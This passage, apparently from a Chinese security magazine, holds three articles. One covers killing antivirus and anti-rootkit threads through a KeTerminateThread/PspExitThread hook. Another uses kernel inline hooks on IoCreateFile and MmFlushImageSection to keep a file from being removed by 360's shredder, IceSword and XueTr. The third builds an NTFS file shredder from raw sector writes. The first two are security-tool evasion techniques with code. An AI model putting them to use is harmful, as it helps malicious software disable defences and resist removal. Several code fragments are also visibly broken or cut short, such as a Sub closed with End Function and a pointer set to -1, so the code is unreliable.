

这样我们便可以 HOOK `KeTerminateThread`，然后创建一个线程，再将其用 `NtTerminateThread` 结束，触发 `PspExitThread` 调用 `KeTerminateThread`。为了安全起见，先判断函数是否处于 `NTOSKRNL` 驱动中，如果满足条件，再回溯到 `PspExitThread`，UNHOOK，最后执行原函数。

这种方法比较麻烦，BYPASS 方法也有一点麻烦。在 CALL HOOK `PspExitThread` 的 call `KeTerminateThread` 处跳转到伪函数，这样 `PspExitThread` 会调用 `MyKeTerminateThread`，`MyKeTerminateThread` 再调用 `KeTerminateThread`，从而定位到 `MyKeTerminateThread`。

伪函数防杀的代码思路一般为：回溯到上一层调用的函数，判断是否 `PspExitThread`，是的话……执行 KeTerminateThread，如果不是，即是别人将 MyKeTerminateThread 误认为是 PspExitThread 进行调用，判断当前线程是否为保护的线程，如果是，则不进行调用。

- (3) 从 Ring3 搜索。在 Ring3 下加载一份 NTOSKRNL.EXE，然后取 PsTerminateSystemThread 在你加载的 NTOSKRNL.EXE 中的地址，根据方法搜索 PspExitThread 在你加载的 NTOSKRNL.EXE 中的地址，根据公式“真实地址 = 获取的地址 + 这个驱动所在内核地址 − 你加载的这个驱动的地址”计算出地址，代码如下：

```vb
Public Sub GetPspExitThread()
    On Error Resume Next
    Dim addr As Long
    Dim buff(0 To &H2F) As Byte, Addr2 As Long
    Dim i As Long
    hmodule = LoadLibrary(ntoskrnlexe)
    addr = GetProcAddress(hmodule, PsTerminateSystemThread)
    CopyMemory buff(0), ByVal CLng(addr), &H30
    For i = 0 To UBound(buff) - 1
        If buff(i) = &HE8 Then
            CopyMemory Addr2, buff(i + 1), 4
            Addr2 = Addr2 + addr + i + 5
            Get2 Addr2
            Exit For
        End If
    Next
End Function

Public Sub Get2(ByVal addr As Long)
    On Error Resume Next
    Dim buff(0 To &H4F) As Byte, Addr2 As Long
    Dim i As Long
    CopyMemory buff(0), ByVal CLng(addr), &H50
    For i = 0 To UBound(buff) - 1
        If buff(i) = &HE8 Then
            CopyMemory Addr2, buff(i + 1), 4
            Addr2 = Addr2 + addr + i + 5
            PspExitThreadArr = Addr2 - hmodule + ntosarr
            Exit For
        End If
    Next
End Function
```

到这里，我们的 WS 结束线程的方法已经介绍完毕，可以结束目前的所有 ARK/AV 的线程，但只要 AV/ARK Hook PspExitThread，然后进行一定的处理，此方法即可无效。

前置知识：VC

关键词：编程，文件保护，Hook

#### 保护文件不被 360 文件粉碎机删除

文/liuke_blue



360 文件粉碎机是一个用来删除计算机中存在的一些恶意的、顽固文件的工具。一般的 Hook、占坑技术等来防止文件不被删除是很难越过 360 文件粉碎机的。本文就介绍一种方法来防止 360 文件粉碎机粉碎文件。

IoCreateFile 函数是一个很重要的函数，不管是使用 NtCreateFile 还是 NtOpenFile，最终都要调用它来获取句柄。

而 NtReadFile、NtWriteFile 等操作文件又得通过 NtCreateFile 或者 NtOpenFile 函数来获取文件句柄，最后都要用到 IoCreateFile 函数。所以我们要对 IoCreateFile 函数进行 Inline Hook。主要代码如下：

```c
NTSTATUS Fake_IoCreateFile(PHANDLE FileHandle, ...
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PIO_STATUS_BLOCK IoStatusBlock,
    PLARGE_INTEGER AllocationSize,
    ULONG FileAttributes,
    ULONG ShareAccess,
    ULONG Disposition,
    ULONG CreateOptions,
    PVOID EaBuffer OPTIONAL,
    ULONG EaLength,
    CREATE_FILE_TYPE CreateFileType,
    PVOID InternalParameters,
    ULONG Options)
{
    NTSTATUS nStatus;
    ANSI_STRING FullName;
    if (Disposition == FILE_OPEN)
    {
        RtlUnicodeStringToAnsiString(&FullName, ObjectAttributes->ObjectName, TRUE);
        // 将 ansi_string 转换为大写字符串
        RtlUpperString(&FullName, &FullName);
        if (strstr(FullName.Buffer, "I234.TXT"))
        {
            FileHandle = -1;
            IoStatusBlock->Status = STATUS_ACCESS_DENIED;
            IoStatusBlock->Information = 0;
            return STATUS_ACCESS_DENIED;
        }
    }

    return OriginalIoCreateFile(FileHandle,
        DesiredAccess,
        ObjectAttributes,
        IoStatusBlock,
        AllocationSize,
        FileAttributes,
        ShareAccess,
        Disposition,
        CreateOptions,
        EaBuffer OPTIONAL,
        EaLength,
        CreateFileType,
        InternalParameters,
        Options);
}

__declspec(naked) NTSTATUS OriginalIoCreateFile(
    PHANDLE FileHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PIO_STATUS_BLOCK IoStatusBlock,
    PLARGE_INTEGER AllocationSize,
    ULONG FileAttributes,
    ULONG ShareAccess,
    ULONG Disposition,
    ULONG CreateOptions,
    PVOID EaBuffer OPTIONAL,
    ULONG EaLength,
    CREATE_FILE_TYPE CreateFileType,
    PVOID InternalParameters,
    ULONG Options)
{
    __asm {
        mov edi, edi
        push ebp
        mov ebp, esp
        mov eax, IoCreateFile
        add eax, 5
        jmp eax
    }
}
```

这样就对 IoCreateFile 函数进行了 Hook。还有一个函数 MmFlushImageSection 也十分重要，在删除文件的过程中要调用这个函数判定文件在运行时是否已经释放，如果文件在运行时没有释放，这个函数会返回 FALSE，让文件无法被删除。所以很多粉碎工具都 Hook 这个函数，让这个函数返回 TRUE，使文件可以被删除，像东方微点就 Hook 了这个函数。我们同样 Hook 这个函数，主要代码如下：

```c
__declspec(naked) BOOLEAN NTAPI
MmFlushImageSection(IN PSECTION_OBJECT_POINTERS SectionObjectPointer,
                    IN MMFLUSH_TYPE FlushType)
{
    __asm{
        mov edi, edi
        push ebp
        mov ebp, esp
        mov eax, OldFuncAddrss
        add eax, 5
        jmp eax
    }
}

// 自己的处理函数
BOOLEAN NTAPI Fake_MmFlushImageSection(IN PSECTION_OBJECT_POINTERS SectionObjectPointer,
                                       IN MMFLUSH_TYPE FlushType)
{
    PFILE_OBJECT pfile;
    WCHAR *pwsz = NULL;
    if (FlushType == MmFlushForDelete)
    {
        if (SectionObjectPointer->DataSectionObject != NULL)
        {
            ...
        }
    }
}
```

```c
{
    pfile = (PFILE_OBJECT)(*(ULONG*)((ULONG)SectionObjectPointer->DataSectionObject + 0x24));
    __try
    {
        pwsz = wcsrchr(pfile->FileName.Buffer, L'\\');
        if (pwsz != NULL)
        {
            pwsz++;
        }
        if (!_wcsnicmp(pwsz, AntiDelFile, wcslen(AntiDelFile) * 2))
        {
            DbgPrint("fileName=%ws", pwsz);
            return FALSE;
        }
    }
    __except(1)
    {
        return FALSE;
    }

    return MmFlushImageSection(SectionObjectPointer, FlushType);
}
```

```text
+0x000 DataSectionObject : Ptr32 Void
+0x004 SharedCacheMap    : Ptr32 Void
+0x008 ImageSectionObject: Ptr32 Void
```

DataSectionObject 其实是指向未公开的结构体 _CONTROL_AREA，这个结构体在 WinDbg 下反汇编的代码如下：

```text
lkd> dt nt!_CONTROL_AREA
+0x000 Segment                   : Ptr32 _SEGMENT
+0x004 DereferenceList           : _LIST_ENTRY
+0x00c NumberOfSectionReferences : Uint4B
+0x010 NumberOfPfnReferences     : Uint4B
+0x014 NumberOfMappedViews       : Uint4B
+0x018 NumberOfSubsections       : Uint2B
+0x01a FlushInProgressCount      : Uint2B
+0x01c NumberOfUserReferences    : Uint4B
+0x020 u                         : __unnamed
+0x024 FilePointer               : Ptr32 _FILE_OBJECT
+0x028 WaitingForDeletion        : Ptr32 _EVENT_COUNTER
+0x02c ModifiedWriteCount        : Uint2B
+0x02e NumberOfSystemCacheViews  : Uint2B
```

MmFlushImageSection 函数不能直接得到文件句柄，通过参数 SectionObjectPointer 几次查找可以找到文件句柄。下面给大家详细介绍如何找到文件句柄。

首先通过 WinDbg 反汇编 SectionObjectPointer 结构体：

```text
lkd> dt nt!SECTION_OBJECT_POINTERS
```

其中的 FilePointer 所指向的 _FILE_OBJECT 就是我们想要获得的。我们通过 SectionObjectPointer→DataSectionObject 获取指向 _CONTROL_AREA 的指针，然后再 +0x24 偏移到 FilePointer，得到文件名。

为了方便测试，我分开编写了 Hook IoCreateFile 和 MmFlushImageSection，用最新的 360 安全卫士 7.0 所带的 360 文件粉碎机、冰刃 1.22 和 XueTr 进行删除测试，结果如表 1 所示：

## 表1

| 利用工具测试 | IoCreateFile | MmFlushImageSection |
|---|---|---|
| 最新 360 粉碎机 | 不能粉碎 | 可以粉碎 |
| 冰刃 1.22 | 可以删除 | 不能删除 |
| XueTr 0.17 | 可以删除 | 不能删除 |

从上面的结果看出 360 粉碎机对 MmFlushImageSection 函数做了相应的防备，但却仍然使用 IoCreateFile 函数来获取文件句柄，而像冰刃、XueTr 这些 AntiRootkit 工具倒是绕过了 IoCreateFile 函数，但却未考虑到 MmFlushImageSection 函数。

不过 360 粉碎机还采用了其他措施来对付利用 Hook IoCreateFile 函数保护文件不被删除的方法。比如在 360 粉碎机中选择“阻止被粉碎的文件再次生成”这个选项，就会发现被保护的文件里面的内容已经被清零，这样也同样达到了删除文件的目的。

（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC

关键词：文件粉碎机，NTFS，MFT

#### 编写文件粉碎机

文/图 倪程 王中衫



在电子数据四处乱飞的年代里，如何保护自己的文件不被外泄，如何做到文件真正地销毁，是当前亟待解决的问题。用户一方面担心自己的重要电子数据丢失，另一方面又担心自己的数据被窃取。当前，很多人为了保护自己的数据不被丢失，对数据进行分散管理，即在多个位置备份自己的文件，这种方式必然带来大量数据的冗余存放，极大地降低文件系统存储效率，同时也给文件使用者带来极大不便，每次更新文件内容都需要对已存在的多个备份进行更新，且安全性也必然随之下降。

这些问题的出现，也使得数据恢复技术得到快速发展。数据恢复技术即在面对计算机系统遭受误操作、病毒侵袭、硬件故障、黑客攻击等事件后，能够将用户数据从各种“无法读取”的存储设备中拯救出来，从而将损失减到最小的技术。当前，大多数人都希望数据的丢失能够借助数据恢复软件重现找回数据。当前国际上数据恢复技术主要有：软恢复（文件系统问题）、硬恢复（硬件问题）、大型数据库系统、异型系统的数据恢复、数据覆盖后的恢复。在软件上，主要有 EasyRecovery、FinalData 等，硬件恢复主要是针对磁盘片损坏、磁道坏、硬盘内部系统区坏的修复。在数据恢复技术高速发展的今天，大家又开始担心起如何彻底地销毁不需要的数据，但又不希望电子数据被别人利用各种工具挖掘出来。本文将介绍一种新方法，即采用软件方式实现文件数据的永久擦除。

##### 复写设计思路

首先，读者需要明确以下两点：

- (1) 采用“Delete”键将文件拖入回收站或者采用组合键“Shift+Delete”将文件删除后，存储在磁盘扇区内的数据并没有删除；
- (2) 系统仅仅是对文件属性区域内的标记进行了简单置位，标识文件已经删除，如 FAT32 下，系统会在目录区对应的文件目录项偏移 00H 位置置为“E5”；NTFS 下，则在 MFT 头偏移 0x16 处标识为“0”或“2”，分别代表已删除文件、已删除目录。

由上面的分析可知，文件删除后其内容依旧存储在磁盘上，故显然若读者想做到彻底地删除数据，这种方式只会是杯水车薪。显然，一种最为可靠的方式即对文件内容的存储区域所占用的所有扇区位置全部进行重写，并多次地实施复写操作。据称，美国军方可以恢复覆盖 6~9 次的数据，俄罗斯可恢复覆盖 3~4 次的数据。注意，为了做多数据信息的彻底销毁，建议大家至少进行 3~4 次复写操作，且对文件扇区内容交替地进行置 0 和 1 操作。

OK，基本的实现方式已经确定了，即对文件所占扇区位置反复多次交替地进行置 0 和 1 操作。下面需要确定文件所占扇区位置及其扇区总数。

##### 基本原理

FAT 文件系统下文件借助 FAT 表项作为链表指针将文件所占的簇数组串联起来，形成一个类似单链表的结构。即当文件需要一簇空间存放时，系统则会在数据区域中寻找一个空闲簇，并将此簇号存放到 FAT 表特定的表项中（即前一簇在 FAT 表中的映射表项位置）。只要我们准确地获取到文件首簇号，即可借助 FAT 表，搜索出文件所占的所有簇号，从而对这些簇号进行复写。已知簇号如何映射到 FAT 表项位置，以期找到其……下一簇号，如图1所示。NTFS 文件系统下，文件借助 MFT 表的 80 属性，准确地读取出对应文件内容。当文件内容很小，即能够在其对应的 MFT 表项中存放时，则会在 80 属性下写入文件内容，而并不再占用任一簇空间；但当文件内容在一个 MFT 表项中不足以存放时，则会采用一种称之为“数据簇运行”的结构来描述文件所占簇数及其每一簇所对应的位置，具体结构如图2所示。若读者对文件存储原理乃至对数据恢复技术感兴趣的话，可参与笔者在黑防上的培训班深入学习。

##### 打造文件粉碎机

由于文件系统过多，若一一讨论，则很难深入地讲解。下面笔者选择 NTFS 文件系统来讲解。要打造文件粉碎机，我们需要解决两个问题：其一，给定一个文件，如何找到其内容所占扇区总数及其每个扇区位置；其二，如何对给定的扇区进行多次复写。

读者首先会想到，从 NTFS 目录树结构着手。这里设需要粉碎的文件名及路径为 `F:\\Smash\\Important.doc`，首先定位到根目录区，然后找到其根目录区下对应的目录名 Smash，并读取此目录下的 MFT 参考号；此时映射到 MFT 区域，找到此目录的 MFT 表项，读取此目录下的指定文件 Important.doc 对应的 MFT 参考号，然后再映射到它所对应的 MFT 表项中，获取 80 属性内容（如图2所示的结构内容），即可解析出 Important.doc 所占的扇区内容及扇区总数。

只是，这里需要明确以下几点：

- MFT 表项中的 90 属性会优先存放其下的子文件属性信息（包括子文件 MFT 参考号）。
- 当 90 属性存储不下时，则会引入 A0 属性，即文件分配属性，为 INDX 索引结构，其内容同样存放了其名下所有子文件及子目录 MFT 参考号、文件名、MAC 时间等属性值。





###### 索引结构 INDX 分析

由 A0 属性值中存放的簇运行结构，转向描述此目录下的所有文件及子目录属性信息的扇区位置，则会出现“INDX”索引结构。INDX 结构一般占 8 个扇区，大小为 4KB，其大小可以在 BPB 结构体成员 `BPB_ClusPerIndexBlock` 中获取。每个 INDX 结构即索引记录都由一个标准的索引头和一组包含索引关键词与索引数据的块组成，标准索引项结构具体描述如表1所示。

| 偏移 | 大小(字节) | 含义 |
|---|---:|---|
| 0x00 | 8 | 文件的 MFT 参考号 |
| 0x08 | 2 | 索引项大小 |
| 0x0A | 2 | 文件名偏移 |
| 0x0E | 2 | 填充（8 字节对齐） |
| 0x10 | 8 | 父目录的 MFT 参考号 |
| 0x38 | 8 | 文件分配大小 |
| 0x40 | 8 | 文件实际大小 |
| 0x50 | 1 | 文件名长度 |
| 0x52 | 2F | 文件名 |

每个索引项结构若均遵照表1的描述，则在程序设计中，可通过读取 INDX 索引结构，获取任一指定目录下的所有文件及其子目录。获取 INDX 结构的代码如下：

```cpp
void ReadINDXContent(CNtfsTree *pHeadNode,
                     CNtfsTree *pRootTree)
{
    DWORD dwBytesPerSec = m_dwBytesPerSec;
    // 每扇区字节数
    DWORD dwPerClusSec = m_dwSecPerClus;
    // 每簇扇区数

    DWORD dwStartSec;
    // 每个运行的起始扇区数
    DWORD dwTotalClus;
    // 每个运行占用的簇数
    DWORD dwTotalSec;
    // 每个运行占用的总扇区数

    char buf[5] = {0};
    char temp[11] = {0};
    wchar_t fileName[256] = {0};

    for(size_t i = 0; i < pRootTree->pVRunVal.size(); i++) {
        dwStartSec = pRootTree->pVRunVal[i]->dwStartSecNum;
        dwTotalSec = pRootTree->pVRunVal[i]->dwTotalSecNum;

        LPBYTE lpBuffer = (LPBYTE)malloc(dwTotalSec * dwBytesPerSec);
        ReadDisk(pRootTree->m_hPartition, dwStartSec, dwTotalSec, lpBuffer);

        LPBYTE lpRunOffset = lpBuffer;
        while((*(LPDWORD)lpRunOffset != 0) ||
              (*(LPDWORD)(lpRunOffset + 0x04) != 0)) {
            memcpy(buf, lpRunOffset, 4);
            if(strcmp(buf, "INDX")) {
                DWORD IndexOffset = *(LPDWORD)(lpRunOffset + 0x18);
                lpRunOffset += (IndexOffset + 0x18);
            }

            DWORD dwFileMFTNum = *(LPWORD)lpRunOffset;
            DWORD FileNameOff = *(LPWORD)(lpRunOffset + 0x0A);
            DWORD FirstIndexLen = *(LPWORD)(lpRunOffset + 0x08);

            LPBYTE lpTemp = lpRunOffset;
            lpTemp += FileNameOff;
            memcpy(temp, lpTemp, 10);
            ...
        }
    }
}
```

```cpp
*(LPWORD)(lpRunOffset + 0x0A);
// 得到文件名的偏移
DWORD FirstIndexLen = *(LPWORD)(lpRunOffset + 0x08);
// 索引大小
LPBYTE lpTemp = lpRunOffset;
// 保存第一个索引项结构偏移
lpTemp += FileNameOff;
// 得到文件名位置
memcpy(temp, lpTemp, 10);
if(strchr(temp, '$') == NULL) {
    CNtfsTree *pRootDir = new CNtfsTree;
    DWORD fileLen = *(lpTemp + 0x00);
    // 得到文件名字节个数
    memcpy(fileName, lpTemp, fileLen * 2);
    DWORD Bytes = WideCharToMultiByte(CP_ACP, NULL, fileName,
                                      wcslen(fileName), NULL, 0, NULL, NULL);
    WideCharToMultiByte(CP_ACP, NULL, fileName,
                        wcslen(fileName), FileNameTemp, Bytes, NULL, NULL);

    if(!strcmp(FileNameTemp, pFileName)) {
        g_flag = true;
        return;
    }
}

memset(temp, 0, sizeof(temp));
lpRunOffset += FirstIndexLen;
...
free(lpBuffer);
clearVectorLink(pRootTree);
```

这种方式能够快速找到文件对应的 MFT 表项，从而读取其 80 属性下存放的簇运行结构内容。但当文件的目录层次很深时，即类似 `F:\\ab\\cd\\ef\\gh\\...\\mn\\abc.txt` 深层次的文件，则需要反复定位跳转才能找到其对应 MFT 表项。下面笔者给出基于数据恢复思路的文件盲搜索算法，搜索指定分区下所有的 MFT 表项，具体思路如下：

- 读取 `$MFT` 表项 80 属性内容，解析出簇运行结构 V。
- 依据遍历 V 中的每个 MFT 表项，分析 MFT 头，若偏移 `16H` 处为“0”或“2”或“3”，则扇区号加 2，continue；反之，则转步骤（3）。
- 读取 30 属性内容，判断其对应的文件名与待粉碎文件名是否一致，若是，则读取 80 属性内容，判断其是否为常驻属性；若是，则读取出文件内容相对 MFT 表项的偏移量 `offset`，转步骤（4）；不然，则解析出簇运行结构 V，转步骤（5）。
- 调用 API 函数 `fwrite` 对文件进行预处理，转步骤（5）。
- 调用 `WriteDisk` 函数，对指定文件所占的所有扇区位置进行复写操作，交替地置为 0 和 1。
- 调用 API 函数 `DeleteFile`，删除复写后的文件，即完成文件粉碎。

##### 程序设计与解析

首先需要将文件拖入文件粉碎机，获取出文件名，实现如下：

```cpp
void CSmashFileDlg::OnDropFiles(HDROP hDropInfo)
{
    char pFileName[512];
    // 统计拖入软件框中的文件个数
    UINT nFileCount= DragQueryFile(hDropInfo, 0xFFFFFFFF, NULL, 0);
    for(UINT i=0; i<nFileCount; i++){
        memset(pFileName, 0, sizeof(pFileName));
        // 依次将文件拖入列表框,并显示起列表中
        DragQueryFile(hDropInfo, i, pFileName, 512);
        plistbox->AddString(pFileName);
    }
    DragFinish(hDropInfo);
    // 拖完要释放掉hDropInfo
}
```

注意：在软件列表框属性中，需要将其窗体支持文件的拖放功能（即“Accept Files”行为设为 true），同时在窗体中添加消息 `WM_DROPFILES` 即可实现文件拖放。

读取用户选择的待粉碎文件，调用 `CreateFile` 函数打开文件对应的逻辑分区，并获取分区 BPB 结构重要属性值（如 `BPB_SecsPerClus`、`BPB_BytesPerSec` 等），以下为单击“文件粉碎”按钮后的响应函数代码：

```cpp
void CSmashFileDlg::OnBnClickedSmash()
{
    CNtfsTree NtfsObject;
    *pNtfsTree;
    memset(g_pFilePath, 0, sizeof(g_pFilePath));
    int index = plistbox->GetCurSel();
    ...
}
```

```cpp
// 获取用户选择的文件索引值
if(index == -1){
    MessageBox("请选择待粉碎文件!", "提示", MB_OK);
    return;
}

// 获取文件路径及文件名
plistbox->GetText(index, g_pFilePath);
char *ptr, c='\\';
ptr = strchr(g_pFilePath, c);
if(ptr){
    while(*ptr != '\\') ptr--;
}
strcpy(g_pFileName, ptr+1); // 提取文件名

char szDrive[10];
memset(szDrive, 0, sizeof(szDrive));
strcpy(szDrive, "\\\\.\\");
strncat(szDrive, g_pFilePath, 2);

// 以读写方式打开指定的磁盘分区
m_hPartition = CreateFile(szDrive, GENERIC_READ|GENERIC_WRITE,
    FILE_SHARE_READ|FILE_SHARE_WRITE, NULL, OPEN_EXISTING, NULL, 0);

unsigned char lpData[512];
if(m_hPartition != INVALID_HANDLE_VALUE)
    ReadDisk(m_hPartition, 0, 1, lpData);

CPartition *partition = new CPartition;
memcpy(&partition->m_ntfsbpb, lpData, sizeof(NTFS_BPB));
partition->m_hPartition = m_hPartition;
if(strncmp((const char*)partition->m_ntfsbpb.BPB_FileSystem, "NTFS", 4)){
    MessageBox("本软件不支持此文件格式!", NULL, MB_OK);
    return;
}else{
    pNtfsTree = new CNtfsTree;
    ...
    NtfsObject.GetMFT30AttrOffset(pNtfsTree);
    MessageBox("文件粉碎成功!", "提示", MB_OK);
}
```

```cpp
SetDlgItemText(IDC_STATIC_TIP, "");
OnBnClickedCancelAll();
DeleteFile(g_pFilePath);
}
```

以下是如何遍历 `$MFT` 表 80 属性下记录的所有 MFT 表项内容，具体代码为：

```cpp
void SearchMFTFile(CNtfsTree *pDirTree, DWORD dwStartSec, DWORD dwTotalSec)
{
    DWORD dwBytesPerSec, dwSecPerClus, dwTotalSecTemp;
    BOOL isDirectoryFlag, isFileDeletFlag;
    wchar_t fileName[256] = {0};
    char FileNameTemp[256] = {0};
    char MFTFlag[5] = {0};
    LPBYTE lpBuffer, lpTempBuffer;

    dwBytesPerSec = pDirTree->m_dwBytesPerSec;
    dwSecPerClus = pDirTree->m_dwSecPerClus;
    dwTotalSecTemp = dwStartSec + dwTotalSec;

    while (dwStartSec < dwTotalSecTemp) {
        lpBuffer = (LPBYTE)malloc(2 * dwBytesPerSec);
        ReadDisk(pDirTree->m_hPartition, dwStartSec, 2, lpBuffer);

        memset(MFTFlag, 0, sizeof(MFTFlag));
        memcpy(MFTFlag, lpBuffer, 4);

        if (strcmp(MFTFlag, "FILE") != 0 || *(LPWORD)(lpBuffer + 0x14) == 0) {
            dwStartSec += 2;
            free(lpBuffer);
            lpBuffer = NULL;
            continue;
        }

        if (*(LPWORD)(lpBuffer + 0x16) == 0 || *(LPWORD)(lpBuffer + 0x16) == 2 || *(LPWORD)(lpBuffer + 0x16) == 3) {
            dwStartSec += 2;
            free(lpBuffer);
            lpBuffer = NULL;
            continue;
        }

        if (*(LPWORD)(lpBuffer + 0x16) == 1) {
            wMFTHeadAttrLen = *(LPWORD)(lpBuffer + 0x14);
            lpTempBuffer = lpBuffer;
            lpTempBuffer += wMFTHeadAttrLen;
            dwMFTAttrLen = 0;

            // 记录MFT头开始到80属性起始处的偏移值
            ...
        }
    }
}
```

```cpp
...dwMFTAttrLen += wMFTHeadAttrLen;

if (*(LPDWORD)lpTempBuffer == 0x10) {
    dwMFT10AttrLen = *(LPWORD)(lpTempBuffer + 0x04);
    lpTempBuffer += dwMFT10AttrLen;
    dwMFTAttrLen += dwMFT10AttrLen;
}

if (*(LPDWORD)lpTempBuffer == 0x30) {
    // 获取MFT的30属性总长度
    dwMFT30AttrLen = *(LPWORD)(lpTempBuffer + 0x04);
    lpTempBuffer += dwMFT30AttrLen;
